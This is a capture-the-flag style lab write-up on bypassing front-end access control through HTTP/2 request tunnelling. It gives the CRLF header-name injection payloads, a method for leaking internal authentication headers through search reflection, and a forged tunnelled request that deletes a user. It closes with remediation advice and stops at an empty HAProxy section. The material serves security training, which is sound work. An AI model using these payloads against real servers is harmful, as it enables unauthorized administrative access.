## Challenge Overview
* **Challenge name**: Bypassing access controls via HTTP/2 request tunnelling
* **Category**: HTTP Request Smuggling
* **Level**: Expert
* **Objective**: Access the admin panel at `/admin` as the `administrator` user and delete the user `carlos`.

---

## 1. Fundamental Concepts

### 1.1 HTTP/2 Downgrading Architecture
Modern web applications frequently adopt a multi-tier reverse proxy architecture:
* **Edge / Front-end Server (Reverse Proxy / CDN / WAF):** Negotiates **HTTP/2** with modern client browsers over TLS for multiplexing, binary framing, and performance benefits.
* **Back-end Server:** Often an internal legacy service or web framework communicating with the front-end over plain **HTTP/1.1** to simplify internal infrastructure.

To bridge this gap, the front-end server performs **HTTP/2 Downgrading**. It decomposes binary HTTP/2 frames (`HEADERS`, `DATA`), translates pseudo-headers (e.g., `:path`, `:method`, `:authority`) into standard HTTP/1.1 text-based request lines, converts binary header pairs into ASCII text delimited by Carriage Return and Line Feed (`\r\n`), and serializes the message down the internal connection pipe.

### 1.2 The Concept of "Request Tunnelling" vs "Classic Request Smuggling"
In **Classic HTTP Request Smuggling** (e.g., CL.TE or TE.CL), the front-end server pools and reuses back-end TCP connections across multiple disparate client requests (*connection reuse / keep-alive pooling*). An attacker injects a smuggled prefix that lingers on the reused TCP stream, corrupting the subsequent request of an unsuspecting victim.

However, in **Request Tunnelling**:
* The front-end server enforces a strict **1:1 connection lifecycle** (it does **not** reuse back-end connections across distinct client sessions).
* As a result, cross-user request desynchronization is impossible.
* Nevertheless, if an attacker can smuggle a secondary request inside their **own** dedicated connection channel (the "tunnel"), they can force the back-end to execute unauthorized operations (such as internal API calls, administrative actions, or credential harvesting) without the front-end inspecting or blocking the smuggled request.

### 1.3 Front-end Access Control & Internal Client Authentication
In microservice and reverse proxy topologies, authentication is often offloaded to the front-end. The front-end verifies client identity (or client TLS certificates) and passes identity assertions to the back-end via trusted internal headers (e.g., `X-SSL-VERIFIED`, `X-SSL-CLIENT-CN`, `X-FRONTEND-KEY`).
* Direct external access to `/admin` returns `401 Unauthorized` or `403 Forbidden` (`Admin interface only available if logged in as an administrator`) because external users lack these authenticated headers.
* To compromise the application, an attacker must first **leak** the expected internal headers and then **forge** them inside a tunnelled request.

---

## 2. Attack Model & Architecture

### 2.1 Root Cause: Header Name CRLF Injection During Downgrade
Under **RFC 7540 / RFC 9113**, HTTP/2 headers are transmitted in binary frames with explicit key/value lengths. Unlike HTTP/1.1, carriage return (`0x0D` / `\r`) and line feed (`0x0A` / `\n`) characters have no delimiter semantics in HTTP/2.

If the front-end parser fails to sanitize newlines in header names, an attacker can supply:
```text
Header Name:  foo: bar\r\nInjected-Header: value
Header Value: dummy
```

When rewritten into an HTTP/1.1 text stream, the front-end outputs literal `\r\n` bytes:
```http
foo: bar\r\n
Injected-Header: value: dummy\r\n
```

This enables full control over request boundaries. By injecting a double newline (`\r\n\r\n`), the attacker terminates the header block of the first request and begins a secondary, smuggled HTTP/1.1 request directly inside the tunnel.

### 2.2 Attack Workflow & Data Flow Diagram

```text
========================================================================================
PHASE 1: LEAKING INTERNAL CLIENT AUTHENTICATION HEADERS VIA SEARCH REFLECTION SINK
========================================================================================
[Attacker]
    │
    │ (1) Sends HTTP/2 POST / with Injected Header Name:
    │     :method: POST
    │     :path: /
    │     abc: tuki\r\nContent-Length: 500\r\n\r\nsearch=x
    │     Body: search=abccdef... (padded > 500 bytes)
    ▼
[Front-end Proxy] (Performs HTTP/2 Downgrade)
    │ Translates binary frames into HTTP/1.1 stream
    │ Translates injected \r\n literally into downstream pipe
    │ Appends internal verification headers to request tail:
    │   X-SSL-VERIFIED: 0\r\n
    │   X-SSL-CLIENT-CN: null\r\n
    │   X-FRONTEND-KEY: 1241455131315526\r\n
    ▼
[Back-end Server] (Parses HTTP/1.1 Stream)
    │ Back-end reads Content-Length: 500 injected by attacker
    │ Treats front-end appended headers as the parameter value of search=x!
    │ Executes search and reflects leaked headers in HTML response body:
    │   "0 search results for 'x : abc ... X-FRONTEND-KEY: 1241455131315526 ...'"
    ▼
[Attacker]
    │ Leaked Headers captured: X-SSL-VERIFIED, X-SSL-CLIENT-CN, X-FRONTEND-KEY

========================================================================================
PHASE 2: REQUEST TUNNELLING VIA HEAD TO EXECUTE PRIVILEGED OPERATIONS
========================================================================================
[Attacker]
    │
    │ (2) Sends HTTP/2 HEAD /login with Injected Tunnelled Request:
    │     :method: HEAD
    │     :path: /login
    │     abc: tuki\r\n\r\nGET /admin/delete?username=carlos HTTP/1.1\r\n
    │          X-SSL-VERIFIED: 1\r\n
    │          X-SSL-CLIENT-CN: administrator\r\n
    │          X-FRONTEND-KEY: 1241455131315526\r\n\r\n
    ▼
[Front-end Proxy] (Dedicated 1:1 Backend Connection)
    │ Pushes downgraded stream into dedicated backend socket:
    │   1. HEAD /login HTTP/1.1
    │   2. GET /admin/delete?username=carlos HTTP/1.1 (Tunnelled)
    ▼
[Back-end Server]
    │ 1. Evaluates HEAD /login -> Emits headers (no body for HEAD)
    │ 2. Reads second request directly from socket:
    │    GET /admin/delete?username=carlos HTTP/1.1
    │    Authenticates via forged headers -> DELETES USER CARLOS!
    ▼
[Front-end Proxy]
    │ Front-end reads backend stream (may flag Content-Length mismatch 500)
    ▼
[Result: Target Carlos deleted & Lab Solved!]
```

### 2.3 Why the `search` Function is Key (The Reflection Sink)
Because internal headers are appended by the front-end during the downgrade process, an attacker cannot inspect them directly. To turn this blind vulnerability into a non-blind exploit, the attacker needs a **Reflection Sink**—an application endpoint that reflects user input back into the HTTP response.
* The blog's `search` parameter reflects query input directly into the page: `0 search results for '<user_input>'`.
* By terminating the first request header block early with `\r\n\r\n` and injecting `search=x` with an inflated `Content-Length: 500`, the attacker tricks the back-end into consuming the front-end's internally appended headers as the parameter value for `search`.

---

## 3. Step-by-Step Exploitation (PoC)

### 3.1. Phase 1: Baseline Request & Probing Access Control
1. Intercept a standard request (`GET /`) and send it to **Burp Repeater**. Ensure the protocol in the **Inspector** panel is set to **HTTP/2**.



2. Attempt direct access to the admin interface by modifying the request to `GET /admin HTTP/2`. The server rejects the request with the following message:
```html
Admin interface only available if logged in as an administrator
```



---

### 3.2. Phase 2: Confirming CRLF Injection in Header Names
To verify whether the front-end permits CRLF injection in HTTP/2 header names:
1. In Burp Repeater, open the **Inspector** panel on the right.
2. Under **Request Headers**, click **+** to add a custom header:
   * **Name:**
     ```text
     abc: tuki\r\nHost: tu4nkl3t.com
     ```
   * **Value:** `test`



3. Click **Apply changes** and send the request.
4. Burp displays a warning that the request is *kettled* (contains newlines in headers). The server returns a gateway error:
```http
HTTP/2 504 Gateway Timeout
Content-Type: text/html; charset=utf-8
Content-Length: 152

<html><head><title>Server Error: Gateway Timeout</title></head>
<body><h1>Server Error: Gateway Timeout (3) connecting to tu4nkl3t.com</h1></body></html>
```



> **Conclusion:** The front-end server translates `\r\n` literally into the downstream HTTP/1.1 stream, enabling arbitrary header injection.

---

### 3.3. Phase 3: Leaking Internal Client Authentication Headers
To access `/admin`, we need to extract the front-end's internal authorization headers using the search functionality.

1. Test the search query via `GET /?search=hihihi HTTP/2`. The response reflects:
```html
0 search results for 'hihihi'
```



2. Right-click the request and select **Change request method** to convert it to a `POST / HTTP/2` request with `search=abc` in the request body. Verify that the search parameter functions properly via POST.



3. In the **Inspector**, add a custom header with a CRLF sequence that defines an inflated `Content-Length` (e.g., `500`) and ends with an incomplete `search=x` parameter:
   * **Header Name:**
     ```text
     abc: tuki\r\n
     Content-Length: 500\r\n
     \r\n
     search=x
     ```
   * **Header Value:** `abc`



4. In the raw request body panel, pad the original `search` parameter with dummy characters so that the overall body exceeds 500 characters (e.g., 600 characters: `search=abccdef...`).
5. Send the request. The back-end consumes the injected `Content-Length: 500`, treating the front-end's appended internal headers as the value of the `search` query. The response leaks the hidden headers:
```http
0 search results for 'x : abc
Content-Length: 607
cookie: session=p1PnZIlYiWb4lCTylkFFjinihRnpYYy4
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 1241455131315526
search=abccdef...
```



From the leaked output, we identify three critical authentication headers:
* `X-SSL-VERIFIED`: `0`
* `X-SSL-CLIENT-CN`: `null`
* `X-FRONTEND-KEY`: `1241455131315526` (unique per session)

---

### 3.4. Phase 4: Constructing the Tunnelled Request & Resolving Length Mismatch

To elevate privileges, we must craft a tunnelled request targeting `/admin` with:
* `X-SSL-VERIFIED: 1`
* `X-SSL-CLIENT-CN: administrator`
* `X-FRONTEND-KEY: 1241455131315526`

1. In the **Inspector**, configure the custom header name payload:
   * **Header Name:**
     ```text
     abc: tuki\r\n
     \r\n
     GET /admin HTTP/1.1\r\n
     X-SSL-VERIFIED: 1\r\n
     X-SSL-CLIENT-CN: administrator\r\n
     X-FRONTEND-KEY: 1241455131315526\r\n
     \r\n
     ```
   * **Header Value:** `abc`



2. In the **Inspector**, switch the pseudo-header `:method` from `POST` to **`HEAD`**.



3. Send the request with `:path` set to `/`. The server returns an error:
```http
HTTP/2 500 Internal Server Error
Server Error: Received only 3712 of expected 8631 bytes of data
```



> **Why this happens:** When using a `HEAD` request, the front-end expects a response matching the `Content-Length` of the resource defined in `:path` (`/` is 8631 bytes). However, the back-end answers the tunnelled request (`/admin`), which is only 3712 bytes long. The front-end detects that not enough bytes were received to fulfill the expected length, aborting the stream.

4. **The Fix:** Point the `:path` pseudo-header to an endpoint that returns a smaller resource, such as **`/login`**.
5. Re-send the request with `:path: /login`. The response body now reveals the administrative console:
```html
<section>
  <h1>Users</h1>
  <div>
    <span>wiener - </span>
    <a href="/admin/delete?username=wiener">Delete</a>
  </div>
  <div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
  </div>
</section>
```



---

### 3.5. Phase 5: Executing the Administrative Action (Deleting `carlos`)

1. Update the tunnelled request in the Inspector to target the deletion endpoint:
   * **Header Name:**
     ```text
     abc: tuki\r\n
     \r\n
     GET /admin/delete?username=carlos HTTP/1.1\r\n
     X-SSL-VERIFIED: 1\r\n
     X-SSL-CLIENT-CN: administrator\r\n
     X-FRONTEND-KEY: 1241455131315526\r\n
     \r\n
     ```
   * **Header Value:** `abc`



2. Send the request. Although the front-end returns a `500 Internal Server Error` (`Received only 372 of expected 3351 bytes`), the back-end receives and executes the deletion command:



3. Refresh the lab page in your browser. The banner confirms that the lab has been solved.



---

## 4. Remediation & Defense Strategies

### 4.1 Strict HTTP/2 Protocol Validation (RFC 7540 / RFC 9113 Compliance)
The root cause is the front-end server accepting malformed binary header frames containing newline characters.
* **Header Name Validation:** Reject any HTTP/2 request whose header name or pseudo-header contains whitespace, colons (`:`), uppercase letters, or ASCII control characters—especially `CR` (`0x0D`) and `LF` (`0x0A`).
* **Instant Stream Termination:** The front-end must immediately reset streams (`RST_STREAM` with `PROTOCOL_ERROR`) when receiving illegal characters.

### 4.2 End-to-End HTTP/2 Architecture
* Avoid protocol downgrading whenever possible. If both the front-end and back-end communicate natively over **HTTP/2 end-to-end**, binary framing is preserved throughout the pipeline.
* Eliminating the conversion into plain HTTP/1.1 text completely neutralizes CRLF injection and request desynchronization vectors.

### 4.3 Secure Reverse Proxy Configurations

#### Nginx
If Nginx operates as the reverse proxy, ensure `proxy_pass` uses uniform sanitization and strictly disallows raw header forwarding:
```nginx
# Enforce strict parsing
proxy_pass_request_headers on;
underscores_in_headers off;

# If downgrading to backend HTTP/1.1, ensure strict normalization
proxy_http_version 1.1;
proxy_set_header Connection "";
```

#### HAProxy
